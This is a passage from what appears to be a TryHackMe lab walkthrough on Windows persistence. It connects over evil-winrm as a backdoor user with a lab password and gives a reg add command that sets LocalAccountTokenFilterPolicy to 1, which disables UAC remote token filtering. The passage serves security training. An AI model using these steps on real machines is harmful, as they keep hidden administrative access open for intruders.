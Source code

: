 ```
evil-winrm -i $VICTIM -u thmuser1 -p Password321
*Evil-WinRM* PS C:\Users\thmuser1\Documents> whoami /groups
```

<figure><img src="../../.gitbook/assets/image (1) (1) (7).png" alt=""><figcaption></figcaption></figure>

This is due to User Account Control (UAC). One of the features implemented by UAC, **LocalAccountTokenFilterPolicy**, strips any local account of its administrative privileges when logging in remotely. While you can elevate your privileges through UAC from a graphical user session (Read more on UAC [here](https://tryhackme.com/room/windowsfundamentals1xbx)), if you are using WinRM, you are confined to a limited access token with no administrative privileges.

To be able to regain administration privileges from your user, we'll have to disable LocalAccountTokenFilterPolicy by changing the following registry key to 1.

**Victim**

```
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

Once all of this has been set up, we are ready to use our backdoor user. First, let's establish a WinRM connection and check that the Backup Operators group is enabled for our user:

**Kali**

```
evil-winrm -i $VICTIM -u thmuser1 -p Password321
*Evil-WinRM* PS C:\Users\thmuser1\Documents> whoami /groups
```

<figure><img src="../../.gitbook/assets/image (94) (1).png" alt=""><figcaption></figcaption></figure>
